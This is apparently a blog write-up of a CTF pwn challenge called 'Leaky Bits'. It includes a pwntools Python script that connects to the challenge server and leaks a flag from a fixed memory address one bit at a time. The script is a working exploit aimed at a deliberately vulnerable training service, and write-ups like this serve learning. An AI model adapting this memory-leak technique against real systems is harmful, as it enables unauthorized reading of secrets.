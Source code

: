 ```yaml
---
layout: post
title: "CTF: Solving Leaky Bits"
author: capitol
category: ctf
---
```

![bits](/images/bits.png)

##### name:
Iran - Leaky Bits

##### category:
pwn

##### points:
100

#### Writeup
The team from [xil.se](https://www.xil.se/) have written a challenge that's called leaky bits, and as the name implies it's all about leaking the data that we need, one bit at a time.

Drip, Drop, Drip, Drop.

Play the challenge here: telnet ctf1.xil.se 4500

#### Solution
```python
from pwn import *

context(arch = 'x86_64', os = 'linux')

# reads a byte from the input address
def readbyte(t, addr):
    bits = ""
    for i in range(8):
        t.recvregex('Where do you want to leak\?')
        t.sendline('0x%x %d' % (addr, i))
        bits = t.recvregex('look: \d')[-1] + bits
    return int(bits, 2)


with context.local(log_level='info'):
    tube = remote('ctf1.xil.se', 4500)

    # a quick check with r2 reveals the flag location in the binary
    flag_addr = 0x601050

    bytes = []
    for c in range(30):
        bytes.append(readbyte(tube, flag_addr + c))

    print "\n\nFlag is", "".join([chr(c) for c in bytes]), "\n\n"

    tube.interactive()
```

Coproduced with the [League of Extraordinarily Backward Engineers](https://ctftime.org/team/32182)
